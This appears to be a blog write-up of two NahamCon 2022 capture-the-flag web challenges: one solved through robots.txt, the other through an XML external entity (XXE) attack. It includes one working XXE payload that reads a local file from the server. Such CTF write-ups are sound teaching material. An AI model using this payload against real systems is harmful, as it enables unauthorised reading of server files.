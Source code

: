 
## Jurrasic Park (Web)

![Screenshot of Jurrasic Park](/img/nahamcon-ctf-2022-park-1.webp)

The easiest web challenge, *Jurrasic Park* had a pointer to the flag on the `robots.txt` page.

### Navigation

#### robots.txt

![Screenshot of Jurrasic Park](/img/nahamcon-ctf-2022-park-2.webp)

#### /ingen

![Screenshot of Jurrasic Park](/img/nahamcon-ctf-2022-park-3.webp)

### Flag


![Screenshot of Jurrasic Park flag](/img/nahamcon-ctf-2022-park-4.webp)

---

## EXtravagant (Web)

![Screenshot of EXtravagant](/img/nahamcon-ctf-2022-extravagant-1.webp)

*EXtravagant* (web) was vulnerable to [XXE](https://portswigger.net/web-security/xxe)

### Crafting an Exploit

[PortSwigger's XXE page](https://portswigger.net/web-security/xxe) helped me create the following exploit to reveal the flag:

```xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///var/www/flag.txt'>]><root>&test;</root>
```

### Using the Exploit

#### Uploading

![Screenshot of uploading EXtravagant exploit XML](/img/nahamcon-ctf-2022-extravagant-2.webp)

#### Viewing

![Screenshot of viewing EXtravagant exploit XML](/img/nahamcon-ctf-2022-extravagant-3.webp)

### Flag

Clicking `Submit` revealed the flag on the webpage.

![Screenshot of EXtravagant flag](/img/nahamcon-ctf-2022-extravagant-4.webp)